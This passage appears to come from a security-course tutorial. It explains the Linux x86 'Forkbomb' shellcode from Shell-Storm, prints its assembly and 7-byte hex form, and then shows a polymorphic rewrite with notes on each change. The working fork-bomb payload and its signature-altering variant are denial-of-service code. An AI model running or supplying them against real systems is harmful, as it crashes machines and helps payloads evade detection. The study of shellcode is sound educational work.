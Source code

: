 From `man fork`, the `fork` function creates a new process by duplicating the calling process. The denial of service shellcode loops over the `fork` system call indefinitely, until the system on which the code is run is depleted of memory.

The original Shell-Storm shellcode can be found [here](http://shell-storm.org/shellcode/files/shellcode-214.php).

#### Shellcode III: Original Assembly & Shellcode
The assembly instructions for the unmodified 'Forkbomb' shellcode are shown below:

```nasm
global _start

section .text
_start:
    push byte 2
    pop eax
    int 0x80
    jmp short _start
```

After compiling and linking the assembly code above, the `bash` one-liner that has been mentioned previously can be used to generate the hexadecimal shellcode shown below. The original 'Forkbomb' shellcode is 7 bytes in length.

```shell
\x6a\x02\x58\xcd\x80\xeb\xf9
```
#### Shellcode III: Original Demonstration
Note: Run this code at your own risk!

The 'Forkbomb' shellcode is difficult to demonstrate, as after running it, the system on which it is executed will very quickly (almost immediately) lock up. The system or virtual machine must be rebooted after executing the shellcode.

#### Shellcode III: Morphed Assembly & Shellcode
The original assembly code has been modified and is shown in full below. Comments have been added to the assembly code to show where changes have been made. An explanation of these changes follows the code.

```nasm
global _start

section .text
_start:
    xor eax, eax                ; change #1
    mov al, 1                   ; change #2
    inc eax                     ; change #3
    int 0x80            
    jmp _start                  ; change #4
```

The first change involves the use of an `XOR EAX, EAX` instruction. A similar instruction is not used in the original shellcode, as it is not necessary. The second change is the use of a `MOV AL, 1` instruction. This instruction is used to set up `EAX` for the upcoming `fork` system call. The `INC EAX` instruction is the third change and serves to complete the set up of the `EAX` register for the `fork` system call. After the `MOV AL, 1` and the `INC EAX` instructions, the `EAX` register holds the value `2` which specifies the `fork` system call in the `unistd_32.h` file mentioned in previous posts. Finally, the `jmp _start` instruction is used in place of a `jmp short _start` instruction in the original shellcode.
